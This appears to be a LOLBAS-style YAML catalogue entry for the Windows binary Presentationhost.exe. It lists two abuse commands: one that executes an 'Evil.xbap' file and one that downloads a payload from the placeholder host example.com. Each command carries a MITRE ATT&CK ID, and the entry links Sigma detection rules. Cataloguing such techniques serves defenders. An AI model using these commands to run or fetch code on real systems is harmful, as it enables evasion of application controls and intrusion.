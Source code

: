 ```yaml
---
Name: Presentationhost.exe
Description: File is used for executing Browser applications
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: Presentationhost.exe C:\temp\Evil.xbap
    Description: Executes the target XAML Browser Application (XBAP) file
    Usecase: Execute code within xbap files
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: Presentationhost.exe https://example.com/payload
    Description: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\Presentationhost.exe
  - Path: C:\Windows\SysWOW64\Presentationhost.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_presentationhost_download.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_presentationhost.yml
  - IOC: Execution of .xbap files may not be common on production workstations
Resources:
  - Link: https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

